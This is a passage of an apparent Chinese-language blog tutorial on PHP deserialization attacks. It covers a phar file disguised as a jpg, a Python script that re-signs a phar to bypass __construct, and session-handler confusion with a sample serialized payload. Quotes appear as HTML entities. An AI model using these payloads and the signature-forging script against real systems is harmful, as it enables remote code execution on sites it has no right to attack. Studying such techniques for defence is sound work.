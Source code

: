    // 将压缩后的1.phar文件重命名为1.jpg
   rename(&#34;newtest.phar.gz&#34;, &#34;1.jpg&#34;);
   ```

​	最后把文件上传后在删除文件处抓包，`?filename=phar://1.jpg`即可

6. **绕过`__construct`**

   先010里面把序列化字符修改成员数

   然后重新签名

   ```python
   from hashlib import sha1
   with open(&#39;phar.phar&#39;, &#39;rb&#39;) as file:
       f = file.read() 
   s = f[:-28] # 获取要签名的数据
   h = f[-8:] # 获取签名类型和 GBMB 标识
   newf = s &#43; sha1(s).digest() &#43; h # 数据 &#43; 签名 &#43; (类型 &#43; GBMB)
   with open(&#39;newtest.phar&#39;, &#39;wb&#39;) as file:
       file.write(newf) # 写入新文件
   ```

   

#### session反序列化

##### 漏洞原理

`//ini_set(&#39;session.serialize_handler&#39;, &#39;php&#39;);`
`//ini_set(&#34;session.serialize_handler&#34;, &#34;php_serialize&#34;);`
当php_serialize处理器处理接收session，php处理器处理session时便会造成反序列化的可利用

因为php处理器是有一个`|`间隔符，当php_serialize处理器传入时在序列化字符串前加上`|`，即`|O:7:&#34;xiaoxin&#34;:1:{s:4:&#34;name&#34;;s:7:&#34;xiaoxin&#34;;}&#34;`

此时session值为`a:1:{s:7:&#34;session&#34;;s:44:&#34;|O:7:&#34;xiaoxin:1:{s:4:&#34;name&#34;;s:7:&#34;xiaoxin&#34;;}&#34;;}`当php处理器处理时，会把`|`当作间隔符，取出后面的值去反序列化，即是我们构造的payload：

`|O:7:&#34;xiaoxin:1:{s:4:&#34;name&#34;;s:7:&#34;xiaoxin&#34;;}&#34;`


---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024web-php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/  

